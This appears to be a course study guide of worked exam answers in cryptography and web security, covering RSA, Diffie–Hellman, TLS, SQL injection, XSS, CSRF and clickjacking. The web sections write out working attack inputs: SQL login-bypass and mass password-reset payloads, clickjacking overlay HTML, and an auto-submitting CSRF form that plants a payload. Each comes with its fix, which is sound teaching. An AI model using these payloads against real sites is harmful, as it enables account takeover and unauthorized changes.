| $x^{8}$ mod 13 | 1 | 9 | 9 | 3 | 1 | 3 | 3 | 1 | 3 | 9 | 9 | 1 |

**Solutions: x≡2,3,10,11 mod 13.** Checking all residue classes proves completeness.

**(ii) $x^{2}$≡2 mod 13.** The squares in the table are `{1,3,4,9,10,12}`, with 0 added for x=0. None equals 2. **No solution.**

**(iii) $3^{128}$ mod 7.** Fermat gives $3^{6}$≡1 mod 7. Since 128=21·6+2:

$$
3^{128}\equiv(3^6)^{21}\cdot3^2\equiv9\equiv2\pmod7.
$$

<a id="a107"></a>
### A107 · 2019–20 · Q7(c)

**RSA validity, repeated totients and encryption · 15 marks**

Original: [past-paper PDF p. 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021.

**Topics:** RSA encryption and correctness.

> **Question summary:** System A: p=83, q=101, e=3, d=5467. System B: p=17, q=11, e=7, d=23. For both compute φ(n) and φ(φ(n)), and explain validity. For system B encrypt plaintext M=3.

**Exam tip.** φ(φ(N)) is not φ(N)−1 unless φ(N) happens to be prime, which it is not here. Factor the intermediate totient. Mathematical key validity does not make these tiny classroom moduli secure.

**System A:** p=83, q=101, N=8383.

$$
\begin{aligned}\varphi(N)&=82\cdot100=8200,\\8200&=2^3\cdot5^2\cdot41,\\\varphi(\varphi(N))&=\varphi(8200)=4\cdot20\cdot40=3200,\\ed&=3\cdot5467=16401=2\cdot8200+1.\end{aligned}
$$

Therefore e is coprime to φ(N) and d is its inverse modulo φ(N). The factors are distinct primes, so the RSA key relationships are valid.

**System B:** p=17, q=11, N=187.

$$
\begin{aligned}\varphi(N)&=16\cdot10=160=2^5\cdot5,\\\varphi(\varphi(N))&=\varphi(160)=16\cdot4=64,\\ed&=7\cdot23=161=160+1.\end{aligned}
$$

Again d is the required modular inverse. Encrypt M=3:

$$
C=3^7\bmod187=2187\bmod187=130.
$$

A decryption check gives $130^{23}\bmod187=3$.

<a id="a108"></a>
### A108 · 2019–20 · Q8(a)

**ElGamal encryption proof; birthday attack on signatures · 20 marks**

Original: [past-paper PDF p. 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021.

**Topics:** Digital signatures and signing-key security; Hash properties, collisions and birthday security.

> **Question summary:** Describe ElGamal encryption/decryption and prove decryption correctness. Give an illustrative example showing that digital signatures can be vulnerable to a birthday attack.

**Coverage:** related application/extension. Hash/signature birthday attacks are related; ElGamal encryption is not developed by the supplied Sec A decks. Full answer retained for the mixed subquestion.

**Exam tip.** The attack does not forge the private-key operation. It substitutes a different message with the same signed digest, and it needs flexibility to prepare both candidate sets before obtaining the signature.

**ElGamal encryption.** In a specified cyclic group written multiplicatively, publish generator g and public key y=$g^{x}$; keep x private. To encrypt group element M, choose fresh random r and send:

$$
C_1=g^r,\qquad C_2=My^r.
$$

Decrypt $M=C_2(C_1^x)^{-1}$. Correctness is:

$$
C_2(C_1^x)^{-1}=Mg^{xr}g^{-rx}=M.
$$

For a small arithmetic example modulo 11, let g=2,x=4, so y=5. Encrypt M=7 with r=3: C1=8 and C2=7·$5^{3}$ mod 11=6. Bob computes $C1^{x}$=$8^{4}$ mod 11=4, whose inverse is 3, giving M=6·3 mod 11=7. State the group and message-encoding assumptions when discussing confidentiality; the correctness equation itself is not a security proof.

**Birthday attack on hash-based signatures.** Suppose signatures authenticate H(M). An attacker prepares many benign contract variants Bi and many malicious variants Aj, using harmless formatting/metadata variations within each semantic category. Search for a cross-pair with H(Bi)=H(Aj). Ask the signer to approve Bi, then attach the resulting signature to Aj: verification sees the same digest.

For an ideal b-bit digest, two sets of roughly $2^{b/2}$ variants give a constant probability of a cross-collision because there are about $2^{b}$ cross-comparisons. A toy 32-bit digest would need on the order of $2^{16}$ variants in each set, making the problem practical. A large collision-resistant digest makes this infeasible.

<a id="a109"></a>
### A109 · 2019–20 · Q8(b)

**Diffie–Hellman steps and active MITM · 15 marks**

Original: [past-paper PDF p. 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021.

**Topics:** Diffie–Hellman calculations and authentication.

> **Question summary:** Write the Diffie–Hellman key-exchange steps and show the MITM attack when an adversary can intercept and modify messages.

**Exam tip.** Show Mallory’s two calculable secrets explicitly. Multiplying A by B produces $g^{a+b}$, not the desired $g^{ab}$.

**DH steps.** Agree public p,g. Alice chooses a and sends A=$g^{a}$ mod p. Bob chooses b and sends B=$g^{b}$ mod p. Alice computes $B^{a}$ and Bob computes $A^{b}$, both giving $g^{ab}$ mod p.

**MITM steps.** Mallory intercepts A and sends X=$g^{x}$ to Bob; intercepts B and sends Y=$g^{y}$ to Alice. Alice’s key becomes $Y^{a}$=$A^{y}$; Bob’s key becomes $X^{b}$=$B^{x}$. Mallory computes both from her own x,y and the intercepted A,B.


Mallory decrypts Alice’s traffic using the Alice–Mallory key, optionally modifies it, and re-encrypts under the Mallory–Bob key. Neither party has authenticated the claimed owner of the received DH contribution. This is why discrete-log hardness against a passive observer does not prevent the attack.

Authenticate fresh shares/transcripts through signatures verified against trusted keys, a pre-shared secret, or an independent authenticated comparison. Bind both identities and roles to prevent misassociation. Merely encrypting application messages under the resulting keys cannot retrospectively authenticate the exchange.

<a id="a110"></a>
### A110 · 2018–19 · Q1(a)

**Digital-certificate contents and CA role · 9 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Certificates, CA trust and key binding.

> **Question summary:** What key information is kept in a digital certificate? Explain the certification authority’s role with a figure.

**Exam tip.** Draw root → intermediate → server and label which key verifies each signature. A certificate establishes an authenticated key binding, not guaranteed honesty of all content hosted by that site.

A digital certificate is a signed statement binding an identity/name to a public key. Typical contents include subject name (for a website, the permitted DNS names), subject public key and algorithm, issuer, serial number, validity interval, relevant usage/constraint extensions, signature algorithm and issuer signature.

**CA role.** A certification authority verifies an applicant’s control/identity according to the certificate type, then signs the binding. The browser already trusts selected root CA public keys and verifies a chain through any intermediate CAs to the site certificate.


The client must check chain signatures, permitted names/hostname, validity, CA constraints/key usages and applicable revocation information. A matching hostname cannot be inferred merely because some certificate signature verifies. Root self-signatures are not the original source of trust; preinstallation or deliberate configuration supplies that trust.

The certificate is public. The site proves possession of its corresponding private key during authenticated connection establishment. A CA does not need to carry or decrypt every later message and normally does not supply the site’s private key to visitors.

<a id="a113"></a>
### A113 · 2018–19 · Q1(d)

**Risks of signing an apparently random string · 8 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Digital signatures and signing-key security.

> **Question summary:** Explain the risks if Bob agrees to sign a seemingly random string with his private key.

**Exam tip.** Explain both the semantic problem and, if using the algebraic example, its raw-RSA assumptions. “It looks random so it cannot be a contract” is the mistake.

**A random-looking string may have important meaning.** Bob might unknowingly sign a digest of a harmful contract, an authorization token or a blinded representation whose meaning he has not reviewed. He should sign only through a defined, context-bound signing interface, not agree to apply a private-key operation to arbitrary supplied values.

**Concrete raw-RSA risk.** If Bob uses the same raw RSA key for decryption and signing, a ciphertext C looks random. An attacker who asks Bob to “sign” C obtains $C^d\bmod N$, which is exactly its decrypted plaintext. Even a restriction that blocks a particular C is ineffective if blind raw operations remain allowed: choose invertible r and ask for:

$$
\begin{aligned}X&=Cr^e\bmod N,\\Y&=X^d=C^dr\bmod N,\\Yr^{-1}&=C^d\bmod N.\end{aligned}
$$

This example depends on the **raw RSA operation and key reuse**. It is not an automatic attack against properly encoded RSA-PSS signatures on hashed messages. However, the broader semantic risk remains: Bob should know what byte sequence and protocol context he is authorizing.

Use separate keys for signing/encryption, proper secure signature encodings, application/domain separation, and a trusted display/workflow that accurately represents the signed content.

<a id="a126"></a>
### A126 · 2018–19 · Q5(b)

**Inserted ciphertext bit and CBC synchronization · 3 marks**

Original: [past-paper PDF p. 27](../../CSE405-Security_Merged.pdf#page=27). Sitting date: 24 October 2019.

**Topics:** Block-cipher modes, CBC and ciphertext manipulation.

> **Question summary:** A message is encrypted with DES-CBC. An extra 0 bit is inserted into the ciphertext stream after block C_i. How much plaintext is garbled?

**Exam tip.** Underline “inserted.” CBC is self-recovering from some value errors with intact block boundaries, not from an uncorrected bit-position shift.

**All subsequent plaintext blocks after P_i are generally garbled, unless the receiver restores the original bit alignment.** DES-CBC operates on fixed 64-bit ciphertext blocks. Inserting one zero bit after C_i shifts every later receiver block boundary by one bit. For example, with i=4:

```text
Original: ... | C4 | c5[1] ... c5[64] | c6[1] ...
Received: ... | C4 | 0 c5[1] ... c5[63] | c5[64] c6[1] ...
```

The receiver’s next block is not C5; every subsequent reconstructed block is a mixture of adjacent original blocks. CBC decryption $P_i=D_K(C_i)\oplus C_{i-1}$ therefore continues using the wrong blocks. P1 through P_i are unaffected; later plaintext is not reliably recovered.

**Different question:** if a bit is flipped rather than inserted, only its corresponding block is unpredictably corrupted and the matching bit in the next plaintext block flips; later blocks recover. A whole-block substitution also preserves framing. Those familiar CBC propagation rules do not apply to a one-bit insertion.

<a id="a127"></a>
### A127 · 2018–19 · Q6(a)

**Trace P-box and S-box diagrams · 8 marks**

Original: [past-paper PDF p. 27](../../CSE405-Security_Merged.pdf#page=27). Sitting date: 24 October 2019.

**Topics:** DES/AES internals, P/S boxes and multiple-DES strength.

> **Question summary:** For the supplied P-box, find the output for input bits designated top-to-bottom 01234567. For the supplied S-box, find the output sequence for successive input octal numbers 76543210.

**Coverage:** related application/extension. The original diagrams are essential. Lecture 3 has AES SubBytes and ShiftRows, but not this specific P-box/S-box exercise.

**Exam tip.** P-box asks “which input ends up here?” whereas S-box asks “where does this active decoder wire go?” This is why inverse and forward permutation tables appear in the two parts.

Trace wires from their endpoints; crossings without dots are **not junctions**. Label the top input/output wire 0 and proceed downward.



The pictured wiring maps input position i to output position π(i):

| Input i | 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 |
|---|---:|---:|---:|---:|---:|---:|---:|---:|
| Output π(i) | 4 | 7 | 3 | 0 | 6 | 5 | 1 | 2 |

**(i) P-box.** Ask which input label arrives at each output, top to bottom. Invert the table:

```text
output positions: 0 1 2 3 4 5 6 7
input labels:     3 6 7 2 0 5 4 1
```

**Answer: 36720541.** These are labels of eight bit positions, not a binary number containing digits above 1.

**(ii) S-box.** The 3-to-8 decoder activates the wire corresponding to the input octal value. The wiring takes i to π(i), then the 8-to-3 encoder emits that output index. Assuming the standard top-to-bottom 0…7 decoder/encoder numbering, the substitution table is π itself:

```text
input:  7 6 5 4 3 2 1 0
output: 2 1 5 6 0 3 7 4
```

**Answer: 21560374.** The numbering convention matters because the decoder’s outputs are not explicitly numbered in the scan; reversing their ordering would change the numerical substitution.

## Web and Database Security

Primary deck: [WebDB-security.pdf](../slides/WebDB-security.pdf)

<a id="a012"></a>
### A012 · 2023–24 · Q4(c)

**TLS handshake authentication, directional keys and authenticated records · 15 marks**

Original: [past-paper PDF p. 6](../../CSE405-Security_Merged.pdf#page=6). Sitting date: 06 September 2025.

**Topics:** HTTP/HTTPS and browser trust; Certificates, CA trust and key binding.

> **Question summary:** For the supplied TLS handshake: (i) why can a MITM not exploit unencrypted/unauthenticated ClientHello and ServerHello, in both the DH and RSA cases? (ii) Why is using one shared encryption key and one shared integrity key for both directions a bad idea? (iii) After ChangeCipherSpec, what vulnerability remains in the simplified protocol, and how would you fix it?

**Coverage:** related application/extension. HTTPS/certificates and DH/RSA are taught; full historical TLS handshake/record details are supplementary.

**Exam tip.** Distinguish later authentication of earlier plaintext handshake messages from encryption of those messages. In part (iii), identify what the **given figure omits**, rather than listing unrelated TLS attacks.

The figure is a **historical, simplified pre-TLS-1.3 handshake**, not a specification of current TLS.

**(i) Why plaintext hellos are acceptable.** The random nonces and offered/selected cipher suites are not secrets. They are included in each endpoint’s handshake transcript, which is authenticated by the Finished verification. If Mallory changes a hello in transit, the endpoints’ transcripts differ, so the keyed Finished checks fail, assuming sound negotiation and cryptography.

In the **authenticated DH case**, the server’s DH share/parameters are signed with the private key corresponding to its validated certificate. Mallory cannot replace them with her own usable shares while impersonating the server. The peers derive their shared secret and verify the transcript. In the **RSA key-transport case**, the client encrypts the premaster secret with the certificate-authenticated server key. Mallory cannot recover that secret or produce the required Finished authentication under derived keys. A certificate sent without chain/name validation provides no such assurance.

An attacker can still drop packets and cause failure. The claim is that plaintext hellos do not by themselves enable undetected session hijacking, not that TLS prevents all interference.

**(ii) Why separate directional keys.** If client and server use the same encryption/MAC keys and equivalent record encodings, an adversary may reflect a client’s valid record back as an apparently valid server record. Matching counters/nonces across directions can also reuse keystream or AEAD inputs under the same key. Separate keys, derived with role labels, isolate client→server and server→client cryptographic domains. Role/domain separation in authenticated encodings is also necessary design context.

**(iii) Remaining vulnerability in the shown application records.** The figure authenticates Mi but omits the record sequence number. An attacker can replay a valid encrypted record or change delivery order without forging its message MAC. Add a monotonically tracked per-direction sequence number to authenticated record data, along with record type/version/length or equivalent context:

$$
T=\operatorname{MAC}_{K_{\mathrm{dir}}}\!\left(\mathrm{seq}\parallel\mathrm{type}\parallel\mathrm{version}\parallel\mathrm{length}\parallel M\right).
$$

The receiver verifies the expected number and rejects replay/out-of-order records according to the protocol’s stream semantics. A number included only outside the MAC is editable and insufficient. The historical TLS record and Finished structures are specified in [RFC 5246, sections 6 and 7.4.9](https://www.rfc-editor.org/rfc/rfc5246).

<a id="a019"></a>
### A019 · 2023–24 · Q8(c)

**Login bypass; prepared statements · 10 marks**

Original: [past-paper PDF p. 10](../../CSE405-Security_Merged.pdf#page=10). Sitting date: 06 September 2025.

**Topics:** SQL injection and prepared statements.

> **Question summary:** The backend concatenates username and password into SELECT * FROM users WHERE username=... AND password=.... The table includes Alice with password password123. Determine whether SQL injection is possible; give concrete login inputs to log in as Alice without her password; explain how prepared statements prevent it.

**Exam tip.** Write the expanded SQL, not just the input. One correctly formed statement is enough; stacked statements are unnecessary. Parameterization, not merely limiting statement count, fixes the syntax boundary. [OWASP’s parameterization guidance](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html).

**Yes: the SQL parser receives attacker-controlled syntax.** Enter:

```text
username: alice' -- 
password: anything
```

The trailing space after `--` is intentional for MySQL-style comments. The resulting query is:

```sql
SELECT * FROM users
WHERE username = 'alice' -- ' AND password = 'anything';
```

The commented password predicate is never evaluated, so Alice’s row is returned. This assumes the application treats that returned row as a successful login, as the question’s logic implies.

**Prevention:** parameter binding keeps data separate from SQL syntax:

```text
stmt = prepare("SELECT id, password_hash FROM users WHERE username = ?")
row = execute(stmt, [submitted_username]).one_or_none()
accept only if row exists and password_verify(submitted_password, row.password_hash)
```

The payload becomes a literal username string instead of changing the query. For a direct repair of the paper’s plaintext-password model, use `WHERE username=? AND password=?` with both parameters bound, but real password verification should use salted password hashes.

<a id="a020"></a>
### A020 · 2023–24 · Q8(d)

**Stored versus reflected XSS · 10 marks**

Original: [past-paper PDF p. 10](../../CSE405-Security_Merged.pdf#page=10). Sitting date: 06 September 2025.

**Topics:** Stored/reflected XSS and injected scripts.

> **Question summary:** Define XSS and explain the difference between stored and reflected XSS using diagrams.

**Exam tip.** The distinction is persistence/data flow, not “stored executes at the server.” Both execute in the victim’s browser.

XSS occurs when attacker-controlled content is interpreted as active script in a trusted website’s page. The script executes with that page’s origin and can modify its DOM, read accessible data and issue authenticated requests.

| Property | Stored XSS | Reflected XSS |
|---|---|---|
| Payload location | Persisted in comments/profile/database | Carried in a request, often a URL parameter |
| Trigger | A victim views the contaminated page | Victim follows a crafted link/request |
| Server behavior | Serves stored input as active HTML/script | Echoes request input as active HTML/script |
| Reach | Can affect many later visitors | Usually needs a victim-specific lure/request |



Example stored path: malicious guest-book entry → database → another visitor’s rendered page. Example reflected path: `/search?q=<script>...</script>` → server echoes q without context-appropriate escaping → browser executes it.

Defend with contextual output encoding; use safe DOM APIs such as textContent for text; sanitize intentionally permitted rich HTML; add CSP as defense in depth. HttpOnly prevents JavaScript from reading that cookie but does not prevent malicious script from sending authenticated requests from the victim page. CSRF tokens alone do not cure same-origin script execution.

<a id="a036"></a>
### A036 · 2022–23 · Q5(c)

**Limits of cookie policy · 11 marks**

Original: [past-paper PDF p. 12](../../CSE405-Security_Merged.pdf#page=12). Sitting date: 18 April 2024.

**Topics:** CSRF and cookie-authenticated requests; Stored/reflected XSS and injected scripts.

> **Question summary:** Analyze how effective cookie policies are at (i) preventing CSRF, (ii) preventing session hijacking through XSS and (iii) preserving confidentiality of stored cookies.

**Coverage:** related application/extension. XSS/CSRF are explicit; detailed cookie attributes/policy are supplementary.

**Exam tip.** Organize the answer by the three threat locations: unwanted request, hostile script inside a trusted page, and local storage access. Cookie policy is not a complete defense against all three.

**(i) CSRF.** Ordinary Domain/Path cookie matching is insufficient: an attacker can induce a request **to the legitimate target**, and the target’s own cookie matches that request. The browser authenticates the account, not the user’s intention. SameSite can limit cross-site attachment; unpredictable session-bound CSRF tokens and appropriate Origin/Referer checks provide additional protection. A Secure or HttpOnly flag alone does not stop CSRF.

**(ii) XSS session hijacking.** Injected script runs as the victim site, so the domain/origin isolation boundary does not exclude it. If a session cookie is script-readable, XSS can read it and export it. HttpOnly blocks that specific reading path. However, the script can still make same-origin requests that automatically include the cookie, so HttpOnly does not cure XSS. Use contextual output encoding/safe DOM APIs and CSP as defense in depth.

**(iii) Stored-cookie confidentiality.** Domain/Path rules govern browser delivery, not disk encryption. Secure protects network transmission; HttpOnly restricts page scripts. Neither promises protection from someone who can read the browser profile or compromise its user account. OS/browser storage protection, device security, token expiration and server-side revocation address different parts of that threat.

<a id="a038"></a>
### A038 · 2022–23 · Q7(a)

**CSRF synchronizer token; refreshing only on POST · 15 marks**

Original: [past-paper PDF p. 13](../../CSE405-Security_Merged.pdf#page=13). Sitting date: 18 April 2024.

**Topics:** CSRF and cookie-authenticated requests.

> **Question summary:** The server puts a random CSRF token in each page’s DOM/hidden form field, and accepts a request only with a valid cookie and POST token. Tokens are refreshed on POST. Explain protection without special browser support; evaluate refreshing only on POST instead of on both GET and POST.

**Exam tip.** Explain the attacker’s missing information, then discuss usability. Do not claim that more frequent refresh always means stronger practical security.

**(i) Why it works.** On a legitimate page the server creates an unpredictable token T bound to the authenticated session and includes it in a hidden field. A submitted state-changing POST must carry both the session cookie and T. The attacker can induce a cookie-bearing request, but cannot read the victim’s page token across origins. A token obtained in the attacker’s own session does not validate for the victim.



The server compares the submitted token with the expected session-bound value before changing state. Cookies alone are automatic; the additional token is not automatically copied into a forged form. A b-bit uniform token permits roughly $2^{-b}$ success per independent guess, with rate limiting further bounding attempts.

“No special browser support” means no new CSRF-specific browser feature is required. The reasoning still assumes baseline browser origin isolation, no XSS/token leakage, authenticated transport where needed, and server validation. A hidden field is not secret from the user or same-origin JavaScript; its protection is from the remote attacker.

**(ii) Refresh only on POST versus GET and POST.** Rotating on every GET can invalidate forms in other tabs or cause a cross-site image/link request to invalidate a pending form, creating usability and denial-of-service problems. Rotating after an accepted state-changing POST reduces such accidental invalidation. GET must not change protected state, so it normally needs no token-consuming operation.

Per-POST rotation still creates multi-tab/back-button races if the server stores only one current token. A well-designed per-session token or multiple valid per-request tokens may offer a better balance. Rotation is not what fundamentally blocks CSRF: unpredictability, session binding and validation are. If a GET performs a sensitive change, leaving GET unprotected is a vulnerability, regardless of refresh policy.

<a id="a039"></a>
### A039 · 2022–23 · Q7(c)

**Stored versus reflected XSS · 7 marks**

Original: [past-paper PDF p. 13](../../CSE405-Security_Merged.pdf#page=13). Sitting date: 18 April 2024.

**Topics:** Stored/reflected XSS and injected scripts.

> **Question summary:** Briefly explain how reflected XSS differs from stored XSS.

**Exam tip.** The database is not the execution environment. A stored payload is stored at the server but normally executes in a victim’s browser.

**Stored XSS:** an attacker submits active content to persistent storage, such as a comment or profile. Later victims receive it as part of a trusted page and their browsers execute it. No new crafted request from the attacker is required for each victim.

**Reflected XSS:** attacker input arrives in the victim’s request and is immediately echoed into the response as executable content. The attacker usually lures the victim to a crafted URL or form submission.

```text
Stored:    attacker → stored entry → server page → victim executes
Reflected: crafted link → victim request → echoed response → victim executes
```

Both exploit unsafe interpretation of input as code and execute in the browser under the affected page’s origin. Use output encoding suitable for the HTML/attribute/JavaScript context, safe DOM operations and sanitization for permitted rich HTML; CSP adds defense in depth.

<a id="a041"></a>
### A041 · 2022–23 · Q8(b)

**SMS 2FA against phishing · 8 marks**

Original: [past-paper PDF p. 14](../../CSE405-Security_Merged.pdf#page=14). Sitting date: 18 April 2024.

**Topics:** Phishing, homographs and UI deception.

> **Question summary:** Is SMS-based two-factor authentication an effective defense against phishing? Justify.

**Coverage:** related application/extension. Phishing and authentication factors are taught; live SMS relay is an application.

**Exam tip.** Avoid a bare yes/no. Name the threat it stops—password-only compromise—and show why a live relay can still succeed.

**SMS 2FA helps against a stolen password alone, but does not reliably defeat interactive phishing.** A relay phishing site asks for the password, immediately submits it to the genuine service, asks the victim for the SMS code, and forwards that code before it expires. The real service sees valid factors and issues a session to the attacker.


An expiring or one-time code reduces replay but not live forwarding. SMS also inherits phone-account and delivery-channel risks; those are separate from the phishing mechanism asked here.

A stronger defense is an origin-bound authenticator such as WebAuthn used correctly: the authenticator’s response is bound to the legitimate relying party, so the phishing origin cannot simply request a response valid for a different site. The site still needs sound session management.

<a id="a042"></a>
### A042 · 2022–23 · Q8(c)

**Clickjacking with iframes; repeated-click redirection · 12 marks**

Original: [past-paper PDF p. 14](../../CSE405-Security_Merged.pdf#page=14). Sitting date: 18 April 2024.

**Topics:** Phishing, homographs and UI deception.

> **Question summary:** Describe clickjacking in two cases: (i) overlay a fake free-subscription button on an iframe advertisement so a visitor unknowingly clicks a paid buy button; (ii) an embedded public-exam result form whose first click goes to Twitter, second to Facebook, and third finally fetches the result.

**Coverage:** related application/extension. Phishing is taught, but the iframe clickjacking cases are a UI-attack extension.

**Exam tip.** Show the click order and where the event actually lands. Cross-origin framing may be allowed even though cross-origin DOM reading is forbidden.

**(i) Fake subscription button above a purchase action.** Eve embeds WorstPay in an iframe and positions its real buy button under a visible “free Getflix” button. The frame is transparent and lies above the decoy in the click stack, so the user’s click reaches the purchase button. An authenticated victim may complete an action they did not intend. Eve need not read or modify the cross-origin iframe’s DOM; knowing the button’s approximate screen position is enough.


**(ii) Twitter, Facebook, then the real results.** Eve places two transparent links over the apparent submit button, one above the other. On the first click the top link opens Twitter and is removed; on the second the next opens Facebook and is removed; on the third the unobstructed iframe receives the click and performs its normal result request. For example:

```html
<!-- All layers positioned over the iframe's submit-button coordinates. -->
<a class="overlay top" href="https://twitter.com/" target="_blank"
   rel="noopener" onclick="this.remove()"></a>
<a class="overlay lower" href="https://facebook.com/" target="_blank"
   rel="noopener" onclick="this.remove()"></a>
<iframe src="RESULT_SITE_URL"></iframe>
```

The anchors’ z-index values order the first two clicks; each has a transparent hit area. Use new tabs/windows so Eve’s page and filled iframe remain available for subsequent clicks. Exact navigation behavior and button coordinates are assumptions, not a right to inspect the frame across origins.

**Defense.** The framed target sends an appropriate CSP `frame-ancestors` policy, optionally with X-Frame-Options for older clients. Sensitive-action confirmation can reduce damage. A parent page cannot undo a correctly enforced target framing restriction. [OWASP’s framing-defense guidance](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html).

<a id="a064"></a>
### A064 · 2021–22 · Q7(b)

**Clickjacking versus phishing · 12 marks**

Original: [past-paper PDF p. 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023.

**Topics:** Phishing, homographs and UI deception.

> **Question summary:** Differentiate clickjacking and phishing with examples.

**Coverage:** related application/extension. Phishing is explicit; clickjacking is supplementary.

**Exam tip.** Clickjacking can occur without reading the embedded frame. Same-origin policy prevents cross-origin data access; it is not a universal ban on embedding or delivering user clicks.

**Phishing** deceives the user about whom they are interacting with, often using a fake login site, email or lookalike domain. Example: the victim submits a password to a site that imitates the bank.

**Clickjacking** deceives the user about what their click will activate. A hidden or transparent bank iframe is aligned with a visible decoy button; the victim is genuinely on an attacker-controlled surrounding page but clicks the bank’s real control.

| Point | Phishing | Clickjacking |
|---|---|---|
| Main deception | Identity/context of service | Target/meaning of UI action |
| Typical mechanism | Imitation site or social lure | Framing, layering, cursor/timing tricks |
| Must steal a password? | Often, but not always | No; can exploit an existing logged-in session |
| Useful defenses | Origin-bound authentication, accurate origin recognition | CSP frame-ancestors, framing restrictions, sensitive-action confirmation |

<a id="a082"></a>
### A082 · 2020–21 · Q5(b)

**Single-statement SQL injection in a password-change form · 10 marks**

Original: [past-paper PDF p. 19](../../CSE405-Security_Merged.pdf#page=19). Sitting date: 25 September 2022.

**Topics:** SQL injection and prepared statements.

> **Question summary:** A C++ web server allows only one SQL statement per database call. Show how SQL injection in the displayed old-password/new-password login form can still change everyone’s password.

**Exam tip.** Show the expanded statement and how its predicate changes. Do not use a semicolon followed by a second UPDATE—the prompt explicitly removes that avenue.

**Restricting the backend to one SQL statement does not prevent injection within that statement.** The question supplies a password-change form but no exact query, so state a conventional vulnerable implementation:

```sql
UPDATE users SET password='NEW'
WHERE username='CURRENT_USER' AND password='OLD'
```

Put the following in the new-password field (and anything in old password):

```text
chosen_password' WHERE 1=1 -- 
```

After interpolation:

```sql
UPDATE users SET password='chosen_password' WHERE 1=1 -- '
WHERE username='CURRENT_USER' AND password='anything'
```

The comment suppresses the intended WHERE restriction; every row is updated by the **same UPDATE statement**. The trailing space after `--` is relevant for MySQL-style comments. This assumes the application trusts that one query as its password check/update, with no prior independent verification. Different query placement may require a different payload; without source, no unique byte-for-byte input is guaranteed.

**Repair:** look up the current authenticated user with a bound identifier, verify the old password against its stored hash, then update only that user’s password hash through a prepared statement. Scope the update using the server’s authenticated user identity, not an arbitrary submitted username. Database privileges should limit damage.

<a id="a084"></a>
### A084 · 2020–21 · Q6(a)

**CSRF plus stored XSS in a social-network friend request · 15 marks**

Original: [past-paper PDF p. 19](../../CSE405-Security_Merged.pdf#page=19). Sitting date: 25 September 2022.

**Topics:** CSRF and cookie-authenticated requests; Stored/reflected XSS and injected scripts.

> **Question summary:** Trudy builds trudymalicious.com. On a visitor A’s arrival, make A send Trudy a friend request and change A’s homepage so anyone visiting it sends Trudy a friend request. No CSRF/XSS defenses exist. The supplied GET is http://www.networksocial.com/action/friends/add?friend=20. Explain the malicious site.

**Coverage:** related application/extension. CSRF is taught directly in Lecture 10; the stored-XSS part is taught in Lecture 11 pp. 15–19 and handwritten notes pp. 62–63. The question continues on p. 20.

**Exam tip.** Distinguish whose cookie authenticates each step: A for the profile update, then each later viewer for that viewer’s own friend request.

**Part (i): forge the visitor’s friend request.** Trudy serves a page containing:

```html

```

When logged-in A visits, the browser sends the GET to NS. Under the paper’s vulnerable cookie/CSRF assumptions it includes A’s session cookie, so NS interprets the action as A adding Trudy. The image need not successfully display; sending the request is sufficient.

**Part (ii): store active content in A’s homepage using CSRF.** Trudy’s page also auto-submits a form to NS’s profile-update endpoint, setting A’s homepage field to the same malicious image (or equivalent script). For example, where the paper omits endpoint/field names:

```html
<form id="change" method="POST" action="PROFILE_UPDATE_ENDPOINT">
  <input type="hidden" name="HOMEPAGE_FIELD"
    value='&lt;img src="http://www.networksocial.com/action/friends/add?friend=20"&gt;'>
</form>
<script>document.getElementById('change').submit();</script>
```

